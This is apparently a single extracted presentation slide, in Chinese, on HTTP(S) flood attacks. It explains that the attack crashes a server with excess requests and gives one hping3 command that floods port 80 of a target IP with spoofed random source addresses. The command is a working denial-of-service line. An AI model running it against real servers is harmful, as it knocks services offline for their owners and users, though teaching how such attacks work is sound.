

# HTTP(S)洪水攻击
使服务器处理过多的http(s)请求从而造成崩溃。
hping3 –p 80 --flood target-IP --rand-source